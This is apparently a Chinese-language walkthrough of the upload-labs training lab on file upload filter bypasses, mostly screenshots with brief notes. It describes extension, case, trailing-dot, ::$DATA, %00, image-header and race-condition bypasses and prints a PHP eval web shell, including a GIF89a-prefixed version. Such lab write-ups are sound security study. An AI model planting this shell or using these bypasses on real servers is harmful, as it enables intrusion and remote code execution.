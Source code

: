 # upload-lab
2. 查看源码

![image](https://user-images.githubusercontent.com/76896357/114292010-3c3c9880-9abe-11eb-92a2-03e3e6d93e70.png)

* 上传一个php文件，利用bp抓包

![image](https://user-images.githubusercontent.com/76896357/114292062-9a697b80-9abe-11eb-8b46-cc15ba5ad72f.png)

* 发现这个地方和源码有些类似，索性就改成源码的样子

![image](https://user-images.githubusercontent.com/76896357/114292083-bcfb9480-9abe-11eb-9a03-2715d212d74e.png)

* 刚好上传成功

3. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114292260-d9e49780-9abf-11eb-9a67-aff585598602.png)

黑名单虽然绕过，但没有全部绕过，尝试其他后缀

![image](https://user-images.githubusercontent.com/76896357/114292377-abb38780-9ac0-11eb-8901-500be4f1f457.png)

php3还是可以的

4. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114292501-752a3c80-9ac1-11eb-9b60-f515bb580a24.png)

.htaccess文件,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
原文链接:
  https://blog.csdn.net/qq_41381461/article/details/100990862
  
5. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293312-a3ab1600-9ac7-11eb-8fdc-d60717f18781.png)

构建.php. .的后缀名直接上传

![image](https://user-images.githubusercontent.com/76896357/114293351-ecfb6580-9ac7-11eb-960f-9f878f0a5a44.png)

  
6. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293148-524e5700-9ac6-11eb-881e-28deea048f1a.png)

* 各种黑名单，又多了，but，少了个大小写的绕过
* 构建.Php进行绕过

7. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114293377-3350c480-9ac8-11eb-8713-504770fab9ac.png)

构建.php 直接上传

![image](https://user-images.githubusercontent.com/76896357/114293465-c853bd80-9ac8-11eb-826e-586f3a621efd.png)


![image](https://user-images.githubusercontent.com/76896357/114293157-7c077e00-9ac6-11eb-82d3-f7c4184cf647.png)

上传成功


8. 查看源码，没有去掉小数点

![image](https://user-images.githubusercontent.com/76896357/114297735-f515ce00-9ae4-11eb-8ea2-43ed44c826a2.png)

直接构建.php.根据windows会自动去掉后缀名的.

![image](https://user-images.githubusercontent.com/76896357/114297786-4cb43980-9ae5-11eb-8192-9794013013ed.png)

9. 查看源码

![image](https://user-images.githubusercontent.com/76896357/114297808-66558100-9ae5-11eb-935a-8210900e361c.png)

* 忽略了::$DATA操作
* 直接构造.php::$DATA

10. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114297869-c0564680-9ae5-11eb-9175-034f2ab2af30.png)

这里可以让文件的后缀名抵消那些操作，最后剩下.php

比如构建 .php. .

![image](https://user-images.githubusercontent.com/76896357/114297900-eed42180-9ae5-11eb-9760-a66f94062e29.png)

上传成功

11. 查看源代码

![image](https://user-images.githubusercontent.com/76896357/114297943-4d999b00-9ae6-11eb-83dc-5ac07316a4fe.png)

* 用了下%00将php隐藏起来

![image](https://user-images.githubusercontent.com/76896357/114298064-019b2600-9ae7-11eb-997e-b4c527556ec7.png)

上传成功

12. 查看源代码

* 采用了Get方式传参数,可以利用%00，来上传php文件

![image](https://user-images.githubusercontent.com/76896357/115813096-236ca500-a425-11eb-9b59-03402c717734.png)

![image](https://user-images.githubusercontent.com/76896357/115813195-52831680-a425-11eb-919c-6e12998b439d.png)


14. 文件头检测绕过

![image](https://user-images.githubusercontent.com/76896357/115815138-ff12c780-a428-11eb-9362-51a1cf985d26.png)

很显然，这道题检测了文件头

只需要把php一句话加在图片文件里面即可


## 绕过的一些方法

* 服务端校验--白名单

- 配合Apache的解析缺陷 

Apache的解析特性:会从后面开始检查后缀，按最后一个后缀开始，找到合法的后缀进行解析

比如说：一段包含<?php @eval($_POST['cmd']);?>的文件，后缀名是.php.jpg,在打开文件的时候，Apache会解析php代码


* 服务端校验--内容头的校验

函数：

getimagesize

![image](https://user-images.githubusercontent.com/76896357/115867805-2049d700-a46e-11eb-88da-411f9b5fe10d.png)


![image](https://user-images.githubusercontent.com/76896357/115867855-2f308980-a46e-11eb-92b8-479efeeaf7e6.png)


![image](https://user-images.githubusercontent.com/76896357/115867889-38b9f180-a46e-11eb-9020-6819f5bc0dca.png)


比如说GIF

```
GIF89a
<?php @eval($_POST['cmd']);?>

```

* 竞争上传

开启bp，一边用bp上传文件，一边用bp访问文件，

主要是趁代码不注意赶紧访问！！！！














